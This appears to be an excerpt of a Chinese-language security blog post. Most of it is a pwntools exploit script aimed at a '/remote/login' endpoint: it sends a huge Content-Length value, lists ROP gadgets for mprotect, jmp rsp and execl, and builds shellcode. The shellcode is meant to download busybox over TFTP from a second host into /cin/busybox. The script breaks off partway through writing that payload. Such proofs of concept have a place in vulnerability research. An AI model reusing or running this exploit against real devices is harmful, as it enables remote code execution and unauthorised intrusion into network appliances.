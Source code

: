 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8df3jpj8rhVwgzf23ZeWY0bY7YOox3uQMCaNQZydjHHfTicSjHgsCNiauOg/640?wx_fmt=png&from=appmsg "")  
  
  
企图直接把busybox放到/cin/busybox中 结果测试失败  
  
```
import socket
import ssl
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *
context.arch = 'amd64'


path = "/remote/login".encode()
content_length = ["115964116992"]
ip = "192.168.111.148"
#1376
#0x000000000257008a push rdx,pop rdi.ret
#0x0000000000530c8e : pop rsi ; ret
#0x000000000046bb27 : pop rax ; ret
#0x000000000060e7e9 : pop rax ; pop rsi ; ret 绕过最开始那个1无法写入的限制
#0x000000000043F3D0 call mprotect 
#0x0000000000509372 : pop rdx ; ret
#0x0000000002a0e0e0 : add rdx, rax ; mov eax, edx ; sub eax, edi ; ret
#0x00000000005dc96d jmp rsp
#0x43A160 execl
def bytes2stack_bytes(bytes):
    stack_str = "0x"
    swap_data = bytearray(bytes)
    swap_data.reverse()
    for i in swap_data:
        t = hex(i)[2:]
        stack_str+=t

    return stack_str
shellcode1 = asm('''
    lea rax, [rip + 0x69]
    jmp rax
    nop
    nop
    nop
    nop
    nop
    nop
    nop

''')
print(len(shellcode1))
def gen_shellcode_download_file():
    save_path2 = bytes2stack_bytes(b"/cin/bus")
    save_path1 = bytes2stack_bytes(b'ybox')
    arg2 = bytes2stack_bytes(b"octet")
    arg1 = bytes2stack_bytes(b"get")
    filename = bytes2stack_bytes(b"busybox")

    ip_addr2 = bytes2stack_bytes(b"111.160")
    ip_addr1 = bytes2stack_bytes(b"192.168.")

    cmd_path2 = bytes2stack_bytes(b"p")
```